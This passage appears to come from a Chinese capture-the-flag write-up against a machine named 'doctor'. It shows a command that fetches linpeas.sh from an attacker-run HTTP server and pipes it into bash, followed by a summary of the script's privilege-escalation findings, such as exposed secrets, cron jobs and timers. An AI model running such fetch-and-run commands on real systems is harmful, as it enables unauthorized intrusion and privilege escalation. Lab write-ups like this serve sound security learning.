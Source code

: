 #### 3).wget上传方法

```c
攻击机:'python3 -m http.server 8888'
进攻方:"wget -O - 10.10.14.13:8888/linpeas.sh | bash"
```





### (5.分析坏豆子

```c
当然，这里是提供的信息摘要：

1. 基本信息：
   - 操作系统：Ubuntu 20.04 LTS
   - 用户和组：用户 `web`，UID 1001，GID 1001，属于组 `web` 和 `adm`。
   - 主机名：`doctor`

2. 可写入文件夹： 
   - `/dev/shm`

3. 可用的网络工具：
   - `/usr/bin/ping`
   - `/usr/bin/bash`
   - `/usr/bin/nc`

4. 系统信息：
   - Sudo 版本：1.8.31
   - 路径：`/usr/bin:/bin`
   - 日期和正常运行时间：提供了当前日期和正常运行时间信息。
   - 磁盘：`/dev/sda`、`/dev/sda1`、`/dev/sda2`、`/dev/sda5`
   - 未安装的文件系统：在 `/etc/fstab` 中找到的挂载条目。
   - 环境变量：包括敏感信息，如数据库 URI 和秘密密钥。
   - 在 dmesg 中的签名验证失败：未找到。
   - Linux 漏洞建议器的发现：提供了各种 CVE 的详细信息、曝光情况和下载 URL。
   - 保护措施：ASLR 已启用。AppArmor 已启用，但无权读取配置文件集。

5. 容器和云信息：没有运行在容器或云环境中的迹象。


6. 进程列表：
   - 有一些被列为非期望的进程，可能是异常或潜在的安全风险。
       例如，`bpfilter_umh`、`VGAuthService`、`vmtoolsd`等。
   - 还有一些通过`web`用户运行的进程，包括一个Python脚本和一些bash会话，这可能是一个值得关注的用户。

7. 进程权限和父进程：有一些进程的权限或父进程属于不同的用户，这可能会导致特权升级的风险。
                  例如，`cron`和`apache2`等。

8. 计划任务：`cron`和`anacron`等计划任务的配置被列出。检查这些任务是否被滥用或者是否存在安全漏洞。

9. 系统定时器：列出了一系列系统定时器及其下一次运行的时间。这些定时器包括系统维护任务和更新检查。

10. 服务和脚本：列出了一些系统服务和脚本的信息，包括它们的路径和权限。


11. 分析.timer文件：这部分似乎包含了与Linux系统计时器相关的文件信息。
                   systemd中的计时器用于调度任务。
                   提供的链接可能包含了攻击者如何利用计时器文件中的漏洞进行权限提升的细节。

12. 分析.socket文件：这部分讨论了套接字文件的分析，套接字是进程用来发送和接收数据的通信端点。
                   提供的信息包括可写监听器及其关联文件的详细信息，可能突出了潜在的弱点。

13. Unix套接字监听：这里列出了系统上正在监听的Unix套接字列表，以及它们的权限。
```